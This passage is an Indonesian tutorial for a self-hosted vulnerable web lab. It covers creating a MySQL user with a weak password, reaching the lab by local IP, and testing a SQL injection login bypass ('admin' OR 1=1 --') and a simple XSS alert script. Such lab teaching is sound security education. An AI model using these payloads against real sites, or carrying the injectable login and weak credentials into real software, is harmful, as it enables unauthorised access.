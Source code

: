 ```sql
-- 3. Buat user khusus
CREATE USER 'webuser'@'localhost' IDENTIFIED BY 'webpass123';
GRANT ALL PRIVILEGES ON labserangan.* TO 'webuser'@'localhost';
FLUSH PRIVILEGES;
```

Ketik `exit` untuk keluar dari MySQL.

---

#### ✅ LANGKAH 4 – Akses Web Lab dari Browser

Asumsikan kamu mengakses Ubuntu Server ini dari browser di komputer host atau jaringan lain.

1. Cek IP Ubuntu Server kamu:
    
    ```bash
    ip a | grep inet
    ```
    
    Misalnya IP kamu `192.168.56.101`.
    
2. Akses via browser:
    
    ```
    http://192.168.56.101/labserangan/
    ```
    
    Kamu akan melihat form login dan form komentar.
    

---

#### ✅ LANGKAH 5 – Uji Serangan SQL Injection & XSS

#### 💥 SQL Injection

Masukkan ini ke form login:

```plaintext
Username: admin' OR 1=1 --
Password: apasaja
```

✔️ Harusnya login berhasil karena query jadi:

```sql
SELECT * FROM users WHERE username = 'admin' OR 1=1 -- ' AND password = '...'
```

---

#### 💥 XSS

Di form komentar, masukkan:

```html
<script>alert('XSS by kamu!')</script>
```
